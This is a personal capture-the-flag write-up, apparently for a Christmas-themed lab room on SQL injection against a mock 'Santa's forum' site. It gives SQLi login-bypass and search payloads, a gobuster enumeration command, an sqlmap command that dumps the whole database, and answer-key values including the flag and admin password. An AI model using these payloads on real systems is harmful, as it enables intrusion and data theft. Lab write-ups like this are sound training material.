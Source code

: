 #Day-5

--
====================================================================
After last year's attack, Santa and the security team have worked hard on reviving Santa's personal portal. Hence, 'Santa's forum 2' went live.

After the attack, logs have revealed that someone has found Santa's panel on the website and logged into his account! After doing so, they were able to dump the whole gift list database, getting all the 2020 gifts in their hands. An attacker has threatened to publish a wishlist.txt file, containing all information, but happily, for us, he was caught by the CBI (Christmas Bureau of Investigation) before that. On MACHINE_IP:8000 you'll find the copy of the website and your goal is to replicate the attacker's actions by dumping the gift list!
====================================================================

running basic enumaration on target using gobuster:

#gobuster dir -u http://10.10.116.155:8000 -w /usr/share/dirb/wordlists/common.txt | tee -a gobuster

--
====================================================================

#1	Without using directory brute forcing, what's Santa's secret login panel?
	Ans: santapanel

#2	Visit Santa's secret login panel and bypass the login using SQLi
	And: No answer needed.

	we bypasswd the login page by putting the following input
	username: admin' or 1+1 --
	password: admin //dosenst matters whatever you put here.

#3	How many entries are there in the gift database?
	Ans: 22

	we dicoverd that by puting following input in search.

	1' or 1+1 --

#4	What did Paul ask for?
	ans: github ownership

--
====================================================================
#So to dump all the data from database we need to intercpt the tarffic using brupsuit.

	so turn the burpsuit on and let's input anything in search feild and then see the burpsuit result. save it as panel.request

	now let's run the sql map to dump all the content from the database.

	sqlmap -r panel.request --tamper=space2comment --dump-all --dbms sqlite
--
====================================================================

#5	What is the flag?
	Ans: thmfox{All_I_Want_for_Christmas_Is_You}

#6	What is admin's password?
	Ans: EhCNSWzzFP6sc7gB


